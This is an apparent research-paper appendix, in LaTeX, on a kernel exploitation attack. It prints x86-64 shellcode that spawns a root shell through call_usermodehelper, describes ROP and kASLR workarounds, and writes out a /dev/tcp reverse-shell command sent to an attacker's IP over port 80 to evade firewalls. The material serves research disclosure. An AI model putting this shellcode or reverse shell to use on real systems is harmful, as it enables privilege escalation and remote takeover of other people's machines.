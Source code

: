 \newpage
\section{Shell Code}\label{apx:shellcode}
To open the new shell, we used the built-in functionality the Linux kernel provides for spawning user processes with root privileges. This shellcode size is less than 100 bytes, which means that it fits into a single writable page. We used the same page where the initial attack took place, when possible. Finally, for all attacks, we validated that the shellcode was able to run when the computer is locked, successfully showing a gaining access scenario as well. We also implemented improved versions of this shellcode: We implemented a ROP payload based on this shellcode in order to bypass DEP protection. For the basic case, we implemented both the ROP and the regular version using fixed kernel pointers (e.g., function calls). When kASLR was enabled, we patched the payload during attack execution. Lastly, we replaced the string \textbf{\nobreak ``/sbin/getty -aroot tty9''}, which opens a local shell, with the string \textbf{\nobreak ``/bin/bash -c /bin/bash$>$\&/dev/tcp/{\normalfont \emph{attacker's IP}}/{\normalfont \emph{port}}$<$\&1''}, which opens a remote shell on the attacker's machine. We used port 80 (HTTP) in order to bypass firewalls, but any port could be used.
\begin{figure}[h]
        \begin{verbatim}
;push ``/sbin/getty -aroot tty9''
mov  rax, 0x003979747420746f
push rax
mov  rax, 0x6f72612d20797474
push rax
mov  rax, 0x65672f6e6962732f
push rax

xor  rdi, rdi
mov  rsi, rsp
xor  rdx, rdx
mov  rax, <argv_split>
call rax

mov  rdi, qword [rax]
mov  rsi, rax
xor  rcx, rcx
mov  rax, <call_usermodehelper>
call rax

pop  rax
pop  rax
pop  rax
ret
        \end{verbatim}
        \caption{Shellcode for spawning a new local root shell from the kernel.}
        \label{fig:shellcode_1}
\end{figure}

